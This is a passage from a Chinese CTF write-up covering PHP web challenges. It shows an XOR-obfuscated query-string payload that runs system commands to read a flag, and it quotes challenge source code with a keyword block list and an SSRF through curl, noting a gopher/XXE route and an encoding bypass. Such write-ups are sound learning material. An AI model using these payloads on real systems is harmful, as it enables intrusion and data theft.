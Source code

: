 成功返回了 `phpinfo` ，我们继续构造一个shell：

```
?code=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ee}(${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff})&%ee=system&%ff=ls
```

可以看到ls的结果，不过cat好像又被宰掉了，用 `tac fl*` 来获取flag

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171600.png)

 

 

 

### do you know

预期：gopher协议SSRF打XXE，URL编码显示空字符，pop链

非预期：直接URL编码字母来绕过file关键字读取flag

呐~这道题是气死啊，我用gopher协议读取了main.php之后遇到了一个谜之pop链，最后饮恨于此，后来看了一些师傅的wp之后，知道这个非预期直接吐血。。。这波啊……这波是气死……

#### 题目分析

一来就给出源码：

```
 <?php
highlight_file(__FILE__);
#本题无法访问外网
#这题真没有其他文件，请不要再开目录扫描器了，有的文件我都在注释里面告诉你们了
#各位大佬...这题都没有数据库的存在...麻烦不要用工具扫我了好不好
#there is xxe.php
$poc=$_SERVER['QUERY_STRING'];
if(preg_match("/log|flag|hist|dict|etc|file|write/i" ,$poc)){
                die("no hacker");
        }
$ids=explode('&',$poc);
$a_key=explode('=',$ids[0])[0];
$b_key=explode('=',$ids[1])[0];
$a_value=explode('=',$ids[0])[1];
$b_value=explode('=',$ids[1])[1];
 
if(!$a_key||!$b_key||!$a_value||!$b_value)
{
        die('我什么都没有~');
}
if($a_key==$b_key)
{
    die("trick");
}
 
if($a_value!==$b_value)
{
        if(count($_GET)!=1)
        {
                die('be it so');
        }
}
foreach($_GET as $key=>$value)
{
        $url=$value;
}
 
$ch = curl_init();
    if ($type != 'file') {
        #add_debug_log($param, 'post_data');
        // 设置超时
```